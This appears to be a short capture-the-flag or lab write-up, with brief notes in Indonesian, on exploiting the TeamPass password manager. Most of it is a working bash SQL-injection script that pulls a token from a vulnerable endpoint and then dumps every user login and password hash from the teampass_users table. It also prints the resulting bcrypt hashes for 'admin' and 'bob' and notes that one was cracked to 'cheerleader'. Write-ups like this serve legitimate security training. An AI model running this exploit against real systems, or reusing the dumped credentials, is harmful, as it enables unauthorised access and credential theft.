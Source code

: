 ```
  token=$(curl --silent --header "Content-Type: application/json" -X POST --data "$data" "$vulnerable_url" | jq -r '.token')
  echo $(echo $token| cut -d"." -f2 | base64 -d 2>/dev/null | jq -r '.public_key')
}

users=$(exec_sql "SELECT COUNT(*) FROM teampass_users WHERE pw != ''")

echo "There are $users users in the system:"

for i in `seq 0 $(($users-1))`; do
  username=$(exec_sql "SELECT login FROM teampass_users WHERE pw != '' ORDER BY login ASC LIMIT $i,1")
  password=$(exec_sql "SELECT pw FROM teampass_users WHERE pw != '' ORDER BY login ASC LIMIT $i,1")
  echo "$username: $password"
done
```

dapat credential
![](Pasted%20image%2020250224144238.png)
```
admin: $2y$10$lKCae0EIUNj6f96ZnLqnC.LbWqrBQCT1LuHEFht6PmE4yH75rpWya
bob: $2y$10$yMypIj1keU.VAqBI692f..XXn0vfyBL7C1EhOs35G59NxmtpJ/tiy
```

berhasil crack -> cheerleader
![](Pasted%20image%2020250224150057.png)
![](Pasted%20image%2020250224150212.png)
